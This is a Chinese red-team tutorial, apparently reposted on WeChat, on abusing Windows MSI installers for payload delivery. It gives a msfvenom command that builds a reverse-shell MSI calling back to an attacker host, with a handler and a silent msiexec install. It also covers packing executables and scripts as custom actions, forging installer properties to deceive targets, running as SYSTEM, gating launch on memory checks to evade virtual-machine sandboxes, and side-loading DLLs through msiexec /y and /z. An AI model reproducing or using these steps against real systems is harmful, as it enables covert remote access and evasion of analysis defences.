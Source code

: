 #  msi的简单使用

[ 合天网安实验室 ](javascript:void\(0\);)

**合天网安实验室** ![]()

微信号 hee_tian

功能介绍 为广大信息安全爱好者提供有价值的文章推送服务！

____

___发表于_

收录于合集

以下文章来源于红队蓝军 ，作者ziansec

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM7W04OGRgUkYHeWtkjjOCGraSXgV6UN8Ia8axnRtFtX6w/0)
**红队蓝军** .

一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

## 前言

Windows Installer 使用安装包，其中包含 Windows Installer 需要安装、卸载或修复产品以及运行安装程序用户界面 (UI)
的信息。每个安装包都包含一个.msi文件，该文件包含安装数据库、摘要信息流和安装的各个部分的数据流。

## msf

直接加载msf的msi上线

    
    
    msfvenom -a x64 -p windows/x64/shell/reverse_tcp LHOST=192.168.11.1 LPORT=8888 -f msi -o 1.msi  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085826.png)

    
    
    handler -p windows/x64/shell/reverse_tcp -H 0.0.0.0 -P 8888  
          
    msiexec /q /i 1.msi  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085842.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085843.png)

## vs

下载扩展

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085845.png)

搜索创建msi文件即可

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085847.png)

利用文件系统和自定义操作选项，可以设置将在目标主机上释放的文件和执行的命令

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085849.png)

点击项目输出

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085850.png)

打包exe进msi

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085851.png)

可以添加图标

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085853.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085854.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085857.png)

创建快捷方式

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085858.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085902.png)

在扩展中可以对安装包的属性进行设置，部分属性会在msi文件的详细信息中体现，所以可以对属性进行一些伪造欺骗

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085904.png)

如果选择True时，在管理员权限下msiexec会使用SYSTEM权限执行安装:

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085905.png)

## 启动条件

点击view->启动条件

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085906.png)

可以设置硬件属性中的内存、分辨率来检测是否在虚拟机里启动

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085907.png)

比如这里要求物理内存必须大于多少字节才启动安装包

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085909.png)

可以通过`orca.exe`来查看其他软件的启动条件设置，下载链接：https://learn.microsoft.com/en-
us/windows/win32/msi/orca-exe

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085910.png)

常见的判断条件可参考：https://community.flexera.com/t5/InstallShield-Knowledge-
Base/Common-MSI-Conditions/ta-p/3854

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085911.png)

在安装时可以使用`msiexec /q /i MsiexecSetup.msi /log
123.log`方式输出日志文件，通过对比日志文件进行更详细的条件设置

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085915.png)

## 打包exe/二进制文件

MSI安装包中可以添加exe、dll、vbs、js类型二进制文件或脚本。常用操作是通过文件系统管理添加要执行的文件，然后在自定义操作中设置在几个阶段要执行的文件，文件释放位置可以使用系统文件夹属性变量

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085916.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085917.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085918.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085920.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085921.png)

打包安装

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085922.png)

## 加载dll

导出函数

    
    
    extern "C" __declspec(dllexport) void DllRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "1", "DllRegisterServer", MB_OK);  
    };  
      
    extern "C" __declspec(dllexport) void DllUnRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "2", "DllUnRegisterServer", MB_OK);  
    }  
    

msiexec程序也可以加载DLL执行，前提是DLL文件在磁盘上存在并且是64位的。通过命令行调用DLL中的`DllRegisterServer`或`DllUnRegisterServer`

    
    
    # DllUnRegisterServer  
    msiexec /z C:\windows\tmp\run.dll  
    # DllRegisterServer  
    msiexec /y C:\windows\tmp\run.dll  
    # 执行run.dll文件 DllRegisterServer  
    msiexec /y .\windows\tmp\run  
    # 执行 .dll 文件 DllRegisterServer  
    msiexec /y .\calc.dll  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085923.png)
**原创稿件征集**

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全热点安全研究分析等安全相关

通过审核并发布能收获200-800元不等的稿酬。

  

[更多详情，点我查看！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230216085925.png)靶场实操，戳“阅读原文“

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

